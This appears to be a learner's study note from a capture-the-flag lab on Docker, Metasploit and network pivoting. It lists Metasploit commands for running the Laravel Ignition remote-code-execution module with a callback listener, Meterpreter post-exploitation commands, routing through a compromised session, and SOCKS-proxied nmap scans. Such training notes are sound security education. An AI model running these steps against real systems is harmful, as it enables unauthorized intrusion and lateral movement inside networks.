 # Day 9 [Pivoting] Dock the Halls

## What is Docker?
* **Docker** is a way to package applications and the associated dependencies into a single unit called an image
  * this image can be shared and run as a container either locally or remotely in prodcution
  * common way to tell if a compromised application is running in a Docker container is to verify the existence of a ```./dockerenv``` file at the root directory

## What is Metasploit?
* **Metsploit** is a powerfil penetration testing tool for gaining initial access to systems, performing post-exploitation, and pivioting to other applications and systems
* developed and maintained by **Rapid7**

## What is a Metasploit Session?

* Often **Command Shells/Meterpreter** sessions which allow for executing commnads against the target
* can also open up other session types, ie. **SSH / WinRm**
* common console commands:
```
# view sessions
sessions

# upgrade the last opened session to Meterpeter
sessions -u -1

# interact with a session
sessions -i [session_id]

# background the currently interactive session and go back to the Metasploit prompt
background
```
### What is a Meterpreter
* **Meterpreter** is an advanced payload that provides interactive access to a compromised system
  * can upload/download files or pivot utilizing a meterpreter session
  * Normal command shells do not suppoer complex operation such as pivoting
* some useful commands in a meterpreter:
```
# get information about the remote system, ie OS
sysinfo

# Upload a file or directory
upload local_file.txt

# Display interfaces
ipconfig

# Resolve a set of host names on the targer to IP addresses
resovle remote_service1 remote_service2
```


## What is Pivoting?
* once intial entry is gained, the compromised machine can be used to send additional web traffic to previously inaccessible machines
* network scanning tools such as **nmap or arp** can be be run from this compromised machine to locate additional machines/services that were previously inaccessible


## Using Metasploit
* Metasploit can be started by running the commmand ```msfconsole``
* comman commands:
```
# To search for a module, use the 'search' command
msf6 > search laravel

# Load a modile with the 'use; command:
msf6 > use mutli/php/ignition_laravel_debug_rce

# View the information about the module, including the module options, description, CVE details, etc

msf6 exploit(mutli/php/ignition_laravel_debug_rce) > info

# View available options to set
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > show options

# Set the target host and logging
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > set RHOST [MACHINE_IP]
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > set verbose true

# Set the payload listening addressl this is the IP address of the host running Metasploit
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > set LHOST [LITEN_IP]

# Show options again with those that are set
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > show options

# Run or check the module
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > check
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > run
```

### Using Metasploit to pivot
* Metasploit has an interanl routing table that can be modified with the ```route``` command
  * this routing table determines wehere to send network traffic through, this way we are using the Meterpreter to pivot
* the top-level ```route``` command is not the same as the one used in a Meterpreter session, you will need to background this session before utilizing the top-level command
* Usage:
```
# Example usage
msf6 > route [add/remove] subnet netmask ]comm/sid]

# Configure the routing table to send packets destined for 172.17.0.1 to the latest opened session
msf6 > route add 172.17.0.1/32 -1

# Configure the routing table to send packets destined for 172.28.101.48/29 subnet to the latest opened session
msf6 > route add 172.28.10.48/29 -1

# Output the routing table
msf6 > route print
```

### Socks Proxy

* **Socks Proxy** is an intermediate server that supports relaying networking traffic between two machines
* allows you to implement pivoting
* can be run locally or on the remote compromised machine
```
msf6 > auxiliary/server/socks_proxy
msf6 > run SRVHOST=127.0.0.1 SRVPORT=9050 VERSION=4a

# can send curl requests using the --proxy flag
msf6 > curl --proxy socks4a://127.0.0.1:9050 http://[MACHINE IP]

# If the tool does not natively support an option for using a socks proxy, ProxyChains can intercept the tool's request to open a new network connection and route the request through a socks proxy 
proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 [MACHINE IP]
```















